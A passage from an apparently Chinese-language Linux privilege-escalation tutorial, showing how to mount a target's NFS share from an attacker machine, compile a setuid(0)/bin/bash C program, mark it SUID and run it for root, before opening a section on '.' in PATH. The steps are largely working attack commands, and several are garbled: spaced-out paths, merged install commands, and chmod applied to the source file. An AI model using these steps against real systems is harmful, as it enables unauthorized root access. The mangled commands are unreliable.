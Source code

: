 这里不多说了

我们接下来在我们的攻击机上安装客户端工具

需要执行以下命令，安装 nfs-common 软件包。apt 会自动安装 nfs-common、rpcbind 等 12 个软件包

sudo apt install nfs-commonapt-get install cifs-utils

**然后输入命令**

showmount -e [IP 地址]

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR387mudMPZa7LwZDCFf1xQmibQa6y3ibq2ATunV4ReRWUcuib6tf9UrtRoEiafoHKMNLTg83PHmT2t83rQ/640?wx_fmt=jpeg)

**创建目录以挂载远程系统。**

mkdir / tmp / test

**在 ****/tmp/test **上装载** Remote/tmp**** 文件夹：**

mount -o rw，vers = 2 [IP 地址]：/ tmp / tmp / test

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR387mudMPZa7LwZDCFf1xQmibMEW7XagiaJPfyGiadhUXpqic1EvbmjVzIG7y2keJtmuzU6tzxqu1v4JQg/640?wx_fmt=jpeg)

**然后在 / tmp/test / 中。新建一个 c 文件。**

```
#include <stdio.h>

#include <stdlib.h>

#include <sys/types.h>

#include <unistd.h> int main() { setuid(0); system("/bin/bash"); return 0; }

```

**也可以**

echo ‘int main() { setgid(0); setuid(0); system(“/bin/bash”); return 0; }’ > /tmp/test/suid-shell.c

**编译：**

gcc /tmp/test/suid-shell.c -o / tmp / 1 / suid-shel

**赋权：**

chmod + s /tmp/test/suid-shell.c

**好的，我们回到要提权的服务器上**

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR387mudMPZa7LwZDCFf1xQmibw7nAKyicshwIpicghZgsCjgN1RX4k4xrythx4ckibuztEFq8VkSS8oZZQ/640?wx_fmt=jpeg)

cd / tmp./suid-shell

**可以看到是 ROOT 权限了**

**0x0010 linux 提权 - 利用 “.” 路径配置错误**
-----------------------------------

有 “.” 在 PATH 中表示用户可以从当前目录执行二进制文件 / 脚本。但是一些管理员为了避免每次都必须输入这两个额外的字符，他们在用户中添加“。” 在他们的 PATH 中。对于攻击者而言，这是提升其特权的绝佳方法。
